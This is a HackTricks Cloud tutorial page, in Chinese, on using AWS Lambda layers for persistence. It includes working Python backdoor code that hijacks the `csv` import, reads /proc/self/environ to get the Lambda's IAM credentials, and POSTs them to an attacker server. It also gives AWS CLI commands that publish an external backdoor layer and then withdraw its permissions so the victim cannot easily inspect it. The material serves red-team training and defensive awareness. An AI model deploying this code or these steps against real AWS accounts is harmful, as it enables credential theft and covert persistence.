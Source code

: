 # AWS - Lambda Layers Persistence

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

## Lambda Layers

Lambda 层是一个 .zip 文件归档，**可以包含额外的代码**或其他内容。一个层可以包含库、[自定义运行时](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html)、数据或配置文件。

每个函数最多可以包含 **五个层**。当你在一个函数中包含一个层时，**内容会被提取到执行环境中的 `/opt`** 目录。

**默认情况下**，你创建的 **层** 对你的 AWS 账户是 **私有** 的。你可以选择 **与其他账户共享** 一个层或 **将** 该层 **设为公开**。如果你的函数使用了其他账户发布的层，即使该层被删除或你被撤销访问权限，你的函数仍然可以 **继续使用该层版本**。然而，你不能使用已删除的层版本创建新函数或更新函数。

作为容器镜像部署的函数不使用层。相反，当你构建镜像时，将你所需的运行时、库和其他依赖项打包到容器镜像中。

### Python load path

Python 在 lambda 中使用的加载路径如下：
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
检查 **第二** 和 **第三** **位置** 是否被 **lambda layers** 解压其文件的目录占用： **`/opt/python/lib/python3.9/site-packages`** 和 **`/opt/python`**

{% hint style="danger" %}
如果攻击者成功地 **后门** 一个被使用的 lambda **layer** 或 **添加一个** 在加载常用库时会 **执行任意代码** 的 **layer**，他将能够在每次 lambda 调用时执行恶意代码。
{% endhint %}

因此，要求是：

* **检查** 受害者代码 **加载的库**
* 创建一个 **带有 lambda layers 的代理库**，该库将 **执行自定义代码** 并 **加载原始** 库。

### 预加载的库

{% hint style="warning" %}
在滥用此技术时，我发现了一个困难：一些库在你的代码执行时已经在 python 运行时中 **被加载**。我原本期待找到像 `os` 或 `sys` 这样的库，但 **甚至 `json` 库也被加载**。\
为了滥用这种持久性技术，代码需要 **加载一个在代码执行时未加载的新库**。
{% endhint %}

使用这样的 python 代码，可以获得 lambda 中 python 运行时 **预加载的库列表**：
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
这是**列表**（检查像`os`或`json`这样的库是否已经存在）
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
这是**lambda默认安装的库**列表：[https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer 后门

在这个例子中，假设目标代码正在导入**`csv`**。我们将**对`csv`库的导入进行后门处理**。

为此，我们将**创建目录csv**，并在其中放置文件**`__init__.py`**，路径为lambda加载的路径：**`/opt/python/lib/python3.9/site-packages`**\
然后，当lambda执行并尝试加载**csv**时，我们的**`__init__.py`文件将被加载并执行**。\
该文件必须：

* 执行我们的有效载荷
* 加载原始的csv库

我们可以通过以下方式实现这两者：
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
然后，创建一个 zip 文件，代码放在路径 **`python/lib/python3.9/site-packages/__init__.py`** 中，并将其添加为 lambda 层。

您可以在 [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) 找到此代码。

集成的有效载荷将在 **首次调用或在 lambda 容器重置后**（代码更改或冷 lambda）**发送 IAM 凭证到服务器**，但 **其他技术**（如以下内容）也可以集成：

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### 外部层

请注意，可以使用 **来自外部账户的 lambda 层**。此外，即使没有权限，lambda 也可以使用来自外部账户的层。\
还要注意，**一个 lambda 最多可以有 5 个层**。

因此，为了提高此技术的灵活性，攻击者可以：

* 在用户的现有层中植入后门（没有任何外部内容）
* **在** **他的账户中创建**一个**层**，给予**受害者账户使用**该层的**访问权限**，**配置**受害者的 Lambda 中的**层**并**移除权限**。
* **Lambda** 仍然能够**使用该层**，而**受害者**将没有任何简单的方法来**下载层代码**（除了在 lambda 内部获取反向 shell）。
* 受害者**不会看到**使用 **`aws lambda list-layers`** 的外部层。

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
